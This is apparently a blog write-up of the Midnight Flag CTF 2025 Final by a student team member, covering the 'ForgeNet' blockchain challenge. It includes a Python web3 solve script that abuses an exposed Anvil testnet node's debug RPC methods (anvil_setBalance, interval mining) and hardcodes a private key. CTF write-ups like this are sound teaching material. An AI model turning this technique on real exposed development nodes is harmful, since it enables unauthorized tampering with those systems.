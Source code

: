 # Midnight CTF 2025 Final

I participated Midnight Flag CTF 2025 Final!.

Our team [m01nm01n](https://m01nm01n.github.io/) won 3rd place in student score board.

![moinmoin_smal.png](moinmoin_smal.png)

![Top 10 Teams.png](Top 10 Teams.png)

I solved 3 reversing, 1 blockchain. This article is the article for those 3 challenges and unsolved one pwn challenge.

## ForgeNet (413 pts, 12 solves)
<primary-label ref="BLOCK CHAIN"/>

> You've infiltratred a NeuraTek bot factory. You just found a computer which seems to control the creation of bots. I'm sure it's possible to exploit it. You have to find the vulnerability and take control of the computer to stop this factory for creating new bots.
{style=note}
 
the problem is simple. the problem is the blockchain was an Anvil testnet node which provides special debugging/testing RPC methods.

The most direct approach was using anvil_setBalance to give myself the 2077 ETH.
Also, the challenge required blocks to mine every exactly 10 seconds.

```py
from web3 import Web3
from eth_account import Account

RPC_URL = "http://chall4.midnightflag.fr:11387/rpc"
PRIVATE_KEY = "ca517242cb8b64d1e547079eb4c31d0497c5086b70a7a10f2410d93b19f2fde9"
CHAIN_ID = 2077

class FreshForgeNetSolver:
    def __init__(self):
        self.w3 = Web3(Web3.HTTPProvider(RPC_URL))
        self.account = Account.from_key(PRIVATE_KEY)
        self.address = self.account.address

    def solve(self):
        target_balance_wei = self.w3.to_wei(2077, 'ether')
        target_balance_hex = hex(target_balance_wei)
        
        result = self.w3.manager.request_blocking("anvil_setBalance", [self.address, target_balance_hex])
        balance = self.w3.eth.get_balance(self.address)
        balance_eth = self.w3.from_wei(balance, 'ether')
        
        if balance_eth >= 2077:
            print("got 2077 eth")
        else:
            print("failed")
            
        self.w3.manager.request_blocking("evm_setAutomine", [False])
        
        result1 = self.w3.manager.request_blocking("anvil_setIntervalMining", [10])
        print(f"{result1=}")
        
        result2 = self.w3.manager.request_blocking("evm_setIntervalMining", [10])  
        print(f"{result2=}")
            
        
```